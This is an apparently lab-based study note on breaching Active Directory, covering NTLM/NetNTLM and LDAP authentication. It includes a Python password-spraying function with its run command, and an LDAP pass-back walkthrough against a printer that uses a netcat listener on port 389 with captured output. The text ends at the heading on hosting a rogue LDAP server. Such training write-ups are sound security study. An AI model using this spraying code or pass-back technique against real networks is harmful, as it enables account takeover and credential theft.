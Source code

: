 # 👾 Breaching Active Directory

### NTLM and NetNTLM

NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.

All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.

application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller.

<figure><img src="../../../.gitbook/assets/image (382).png" alt=""><figcaption></figcaption></figure>

### Brute-force Login Attacks

Since most AD environments have account lockout configured, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, we choose and use one password and attempt to authenticate with all the usernames we have acquired.

#### Example

```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

the input must be:&#x20;

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

<figure><img src="../../../.gitbook/assets/image (383).png" alt=""><figcaption></figcaption></figure>

### LDAP

with LDAP authentication, the application directly verifies the user's credentials. The application has a pair of AD credentials that it can use first to query LDAP and then verify the AD user's credentials.

<figure><img src="../../../.gitbook/assets/image (384).png" alt=""><figcaption></figcaption></figure>

If you could gain a foothold on the correct host, such as a Gitlab server, it might be as simple as reading the configuration files to recover these AD credentials. These credentials are often stored in plain text in configuration files since the security model relies on keeping the location and storage configuration file secure rather than its contents.

### LDAP Pass-back Attacks

Let's attack a network printer in this network where the administration website does not even require credentials

<figure><img src="../../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

So we have the username, but not the password. However, when we press test settings, we can see that an authentication request is made to the domain controller to test the LDAP credentials. Let's try to exploit this to get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command:

```
nc -lvp 389
```

and then we put our IP in the server input and push ->

```
[thm@thm]$ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext.

### Hosting a Rogue LDAP Server
